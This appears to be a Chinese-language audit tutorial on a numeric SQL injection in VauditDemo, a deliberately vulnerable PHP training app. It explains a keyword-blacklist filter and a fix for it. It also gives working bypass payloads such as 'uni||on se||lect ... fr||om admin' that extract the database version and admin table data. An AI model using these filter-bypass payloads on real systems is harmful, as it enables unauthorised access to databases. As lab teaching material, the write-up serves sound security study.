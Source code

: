 # VauditDemo SQL数字型注入

# 什么是SQL注入


![](https://ws4.sinaimg.cn/large/006tNc79gy1fi7lu2cs7bj31by0rkn21.jpg)

# 大局阅读：
## sqlwaf()函数:

```
/* Maybe Bypass尝试绕过*/
function sqlwaf( $str ) {
	//str_ireplace 搜索，replaced with the given replace value
	$str = str_ireplace( "and", "sqlwaf", $str );
	$str = str_ireplace( "or", "sqlwaf", $str );
	$str = str_ireplace( "from", "sqlwaf", $str );
	$str = str_ireplace( "execute", "sqlwaf", $str );
	$str = str_ireplace( "update", "sqlwaf", $str );
	$str = str_ireplace( "count", "sqlwaf", $str );
	$str = str_ireplace( "chr", "sqlwaf", $str );
	$str = str_ireplace( "mid", "sqlwaf", $str );
	$str = str_ireplace( "char", "sqlwaf", $str );
	$str = str_ireplace( "union", "sqlwaf", $str );
	$str = str_ireplace( "select", "sqlwaf", $str );
	$str = str_ireplace( "delete", "sqlwaf", $str );
	$str = str_ireplace( "insert", "sqlwaf", $str );
	$str = str_ireplace( "limit", "sqlwaf", $str );
	$str = str_ireplace( "concat", "sqlwaf", $str );  //字符串统一替换为 sqlwaf
	$str = str_ireplace( "\\", "\\\\", $str );
	$str = str_ireplace( "&&", "", $str );
	$str = str_ireplace( "||", "", $str );  // sel||ect -> select
	$str = str_ireplace( "'", "", $str );   // ' -> /
	$str = str_ireplace( "%", "\%", $str );
	$str = str_ireplace( "_", "\_", $str );
	return $str;
}
```

使用`sel||ect `这种形式可以绕过sqlwaf函数。


# 搜索敏感参数：

正则搜索`from(.*)= \$`

搜到在user/messageDetail.php里

```
if ( !empty( $_GET['id'] ) ) {
    $id = sqlwaf( $_GET['id'] ); //通过get方式获取id参数，通过sqlwaf()函数进行过滤
    //$id = $_GET['id']; id =1 uni||on se||lect 1,2,3,4,5,6,7,8 fro||m admin
    $query = "SELECT * FROM comment WHERE comment_id = $id";
```

# 构造payload：

## order by猜字段:

### 小技巧：

之前在Twitter刷到的一个小技巧：**只需两步**就可以猜到数据库某表的字段

- **先大范围再小范围**

![](https://ws2.sinaimg.cn/large/006tKfTcgy1fi8tp3lgyyj30nw0ymjv5.jpg)

照猫画虎一下：


![](https://ws3.sinaimg.cn/large/006tKfTcgy1fi8u911yjej30wm17gjyo.jpg)

发现确切字段是4。

![](https://ws1.sinaimg.cn/large/006tKfTcgy1fi8ua0uchbj311605gjt0.jpg)



> 之前试过手工注入一个大的数据库字段数很多，有100多，one by one 一个个增加到手软。。。。看来这技巧很实用。
> 
> ---
> MySQL 排序 order by 后面直接加列名或者**列的序号**
> `order by <column_one>, <column_two>; `


---


## union select 猜数据：



payload =`1 uni||on se||lect 1,2,3,4 fr||om admin`
经过sqlwaf过滤后为 `1 union select 1,2,3,4 from admin`

![](https://ws3.sinaimg.cn/large/006tKfTcgy1fi8v4trpvqj31he0bq0ur.jpg)

payload =  `1 uni||on se||lect 1,version(),3,4 fr||om admin`

![](https://ws3.sinaimg.cn/large/006tKfTcgy1fi8v4kw4inj31ii0bo76g.jpg)

payload =  `1 uni||on se||lect *,4 fr||om admin`


![](https://ws2.sinaimg.cn/large/006tKfTcgy1fi8v5obs0sj31kw0ccadb.jpg)

基于编写poc的payload：
payload =  `1 uni||on se||lect 1,md5(233),3,4 fr||om admin`

![](https://ws1.sinaimg.cn/large/006tKfTcgy1fi8veuzcjgj31kw087wg4.jpg)

---

# 修复

敏感字符串统一替换为 `sqlwaf`

```
/* Maybe Bypass尝试绕过*/
//字符串统一替换为 sqlwaf
function sqlwaf( $str ) {
	//str_ireplace 搜索，replaced with the given replace value
	$str = str_ireplace( "and", "sqlwaf", $str );
	$str = str_ireplace( "or", "sqlwaf", $str );
	$str = str_ireplace( "from", "sqlwaf", $str );
	$str = str_ireplace( "execute", "sqlwaf", $str );
	$str = str_ireplace( "update", "sqlwaf", $str );
	$str = str_ireplace( "count", "sqlwaf", $str );
	$str = str_ireplace( "chr", "sqlwaf", $str );
	$str = str_ireplace( "mid", "sqlwaf", $str );
	$str = str_ireplace( "char", "sqlwaf", $str );
	$str = str_ireplace( "union", "sqlwaf", $str );
	$str = str_ireplace( "select", "sqlwaf", $str );
	$str = str_ireplace( "delete", "sqlwaf", $str );
	$str = str_ireplace( "insert", "sqlwaf", $str );
	$str = str_ireplace( "limit", "sqlwaf", $str );
	$str = str_ireplace( "concat", "sqlwaf", $str );  	$str = str_ireplace( "\\", "\\\\", $str );
	$str = str_ireplace( "&&", "sqlwaf", $str );
	$str = str_ireplace( "||", "sqlwaf", $str );  
	$str = str_ireplace( "'", "sqlwaf", $str );   
	$str = str_ireplace( "%", "\%", $str );
	$str = str_ireplace( "_", "\_", $str );
	return $str;
}

```

# 审计思路展示：



![](https://ws3.sinaimg.cn/large/006tKfTcgy1fi8vi6ub5tj30p20limyk.jpg)

